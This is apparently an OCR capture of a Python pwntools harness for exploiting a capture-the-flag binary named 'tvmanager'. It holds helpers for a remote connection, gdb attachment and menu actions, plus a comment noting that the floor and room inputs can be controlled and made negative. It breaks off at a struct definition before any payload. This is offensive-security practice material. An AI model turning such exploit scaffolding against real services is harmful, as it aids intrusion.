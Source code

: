 ```python
SLEEP_TICK = 0.5

class tvmanager:
    def __init__(self, host: str, port : str):
        self.host = host
        self.port = port
        self.binary = 'tvmanager'
        self.p = remote(host, port)
        self.pid = int(subprocess.check_output(
            f"docker top {binary} -eo pid,comm | grep {binary} | awk '{{print $1}}'", 
            shell=True
        ).decode().strip().split()[-1])

    def gdb_attach(self, gdb_script: str):
        if not gdb_script:
            gdb.attach(self.pid, GDB_SCRIPT, exe=self.binary)
        else:
            gdb.attach(self.pid, gdb_script, exe=self.binary)
        
    def interactive(self):
        self.p.interactive()

    def close(self):
        self.p.close()

    def login(self, name: bytes):
        self.p.sendafter(b'name > ', name)

    def list_movies(self):
        self.p.sendlineafter(b'> ', b'1')
        print("[*] list movies")
        print(self.p.recv())

    def register(self, title: bytes, size: int, data: bytes):
        self.p.sendlineafter(b'> ', b'2')
        self.p.sendlineafter(b'title of movie > ', title)
        self.p.sendlineafter(b'category of movie > ', b'1')
        self.p.sendafter(b'size of movie > ', str(size).encode())
        self.p.send(data)

    def broadcast(self, idx: int):
        self.p.sendlineafter(b'> ', b'3')
        movie_list = self.p.recvuntil(b'Input index of movie > ')

        self.p.sendline(str(idx).encode())
        self.send_to_room(72, 154, 5959) # send to 192.168.72.154:5959
        return movie_list

    def send_to_room(self, floor: int, room: int, channel: int):
        """ 
        send data to 192.168.{floor}.{room}:{channel} 
        addr.sin_addr.s_addr = (((room << 8) + floor) << 16) + 0xA8C0;
        we can control this (room, floor can be negative)
        """
        self.p.sendlineafter(b'Input floor-room-channel > ', f'{floor}-{room}-{channel}'.encode())


'''
struct struct_node // sizeof=0x14
{
    int size;
    int category_idx;
    char *title;
```